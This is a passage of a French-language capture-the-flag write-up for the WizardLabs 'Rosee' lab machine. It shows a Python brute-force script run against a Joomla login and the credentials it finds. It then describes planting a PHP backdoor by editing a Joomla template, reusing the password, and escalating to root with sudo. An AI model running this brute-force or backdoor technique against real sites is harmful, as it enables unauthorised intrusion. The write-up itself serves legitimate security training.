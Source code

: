 ```python
                fields["password"] = password
                response = sess.post(
                    "http://10.1.1.23:10000/blog/index.php/author-login?task=user.login",
                    data=fields,
                    headers={"Referer": "http://10.1.1.23:10000/blog/index.php/author-login"}
                )

                if "Username and password do not match" not in response.text:
                    print("Got no error and status code {} with {} / {}".format(response.status_code, username, password))
                    sess = requests.session()
```

On met ensuite des versions possibles du nom d'utilisateur dans un fichier et le pass dans un autre :  

```plain
$ python3 brute.py /tmp/users.txt /tmp/passwords.txt
Testing password cabergas08
Got no error and status code 200 with cebu / cabergas08
```

L'étape suivante est de modifier un script PHP du template Joomla via *control panel > templates > templates > protostar* (ce dernier étant le nom du template utilisé).  

![WizardLabs CTF Rosee joomla template injection PHP backdoor](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/rosee_joomla_template_edit.png)

On obtient facilement un shell en tant que *www-data* et via la réutilisation du mot de passe l'accès au compte *cebu* (et le premier flag).  

```plain
www-data@rosee:/var$ su cebu
Password:
cebu@rosee:/var$ id
uid=1000(cebu) gid=1000(cebu) groups=1000(cebu),4(adm),24(cdrom),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

Ni une ni deux :  

```plain
cebu@rosee:/var$ sudo -l
[sudo] password for cebu:
Matching Defaults entries for cebu on rosee:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cebu may run the following commands on rosee:
    (ALL : ALL) ALL
cebu@rosee:/var$ sudo su
root@rosee:/var# cd /root
root@rosee:~# cat root.txt
adb23419c67f23540fca29392de30177984a17a4
```
